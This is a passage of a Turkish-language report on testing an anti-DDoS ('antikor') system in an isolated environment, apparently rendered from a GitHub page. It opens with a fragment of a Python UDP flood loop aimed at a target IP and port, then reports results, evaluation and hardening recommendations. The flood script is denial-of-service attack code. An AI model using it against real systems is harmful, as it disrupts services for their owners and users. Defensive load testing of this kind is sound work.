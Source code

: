 ```

print(f"[+] UDP Flood başlatıldı -> {target_ip}:{target_port}")

count = 0
while True:
    sock.sendto(bytes_data, (target_ip, target_port))
    count += 1
    if count % 1000 == 0:
        print(f"[+] {count} paket gönderildi...")
        time.sleep(0.1)

> Not: Script i  izinsiz kullanım etik ve yasal değildir.


   5. Sonuç
-> Gönderilen 100000 UDP paketinin ardından antikor sistemi testi başarıyla geçti.  
-> Sistem paketleri başarıyla karşıladı ve herhangi bir aksaklık yaşanmadı.



  6. Etki ve Değerlendirme
-> Test izole bir ortamda yapılmıştır; gerçek sistemlerde rate-limit, firewall ve IDS/IPS gibi mekanizmalar farklı davranabilir.  
-> Testin amacı saldırının başarısını değil, antikor/defense mekanizmasının doğru çalışıp çalışmadığını gözlemlemektir.


 7. Öneriler / İyileştirme
-> Eğer test başarısız olmuş olsaydı, firewall/antikor sisteminin paket filtreleme ve rate-limit ayarları gözden geçirilmeli.  
-> Üretim ortamında ek logging ve uyarı mekanizmaları eklenmeli.  
-> DDoS saldırı simülasyonları için özel test ortamı kullanılmalı.


 9. Sonraki Adımlar
1. Farklı paket boyutları ve hızları ile testler yapılabilir.  
2. Defense mekanizmasının yük altındaki performansı izlenebilir.  
3. Daha sofistike UDP / TCP flood senaryoları hazırlanabilir ve test edilmeden önce izinli ortamda yapılmalıdır.